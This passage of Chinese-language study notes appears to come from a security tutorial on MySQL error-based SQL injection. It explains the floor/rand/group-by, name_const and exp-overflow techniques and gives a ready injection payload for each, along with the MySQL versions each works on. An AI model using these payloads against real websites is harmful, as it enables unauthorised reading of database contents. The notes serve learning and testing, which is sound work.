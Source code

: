   * floor()报错准确来说是floor、count、group by冲突报错，**count(*)、rand()、group by**三者缺一不可
  
  * 经典公式
  
    ```
    1' and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))x from information_schema.tables group by x)a)
    ```
  
    * floor()：向下取整
    * rand()：在0和1之间产生一个随机数
    * floor(rand()*2)：对生成的0-2之间的随机数进行向下取整，**2条记录可能报错**
    * floor(rand(0)*2)：记录需为3条以上，且**3条以上必报错**
    * count(*)：统计记录条数，包括NULL值
    * group by：对数据进行分组，存在则count(*)+1，**不存在则在虚拟表插入一条数据**

##### c. 其他报错注入

###### ①列名重复

* **name_const**

* mysql版本属于 [5.0,5.1)

* **name_const(name,value)**,当用来产生一个**结果集合**时，name_const()促使该列**使用给定名称**

* 标准payload

  ```
  1' and (select * from (select name_const(version(),1),name_const(version(),1))a) -- qwe
  
  //5.7.6只支持使用version()查看版本，其他内置函数均不支持
  ```

  <img src="../../images/8-20-morning/列明重复报错注入.png" alt="列明重复报错注入" style="zoom:67%;" />

###### ②整形溢出

* **exp**
* mysql低于5.5.5，5.7.9成功，8.0失败
* exp是以e为底的指数函数，由于数字太大会溢出，该函数会在参数大于709时溢出，产生报错
* 标准payload

```
1' and exp (~(select * from(select version())a)) --+		//只有mysql5.5.29才能正常显示
```
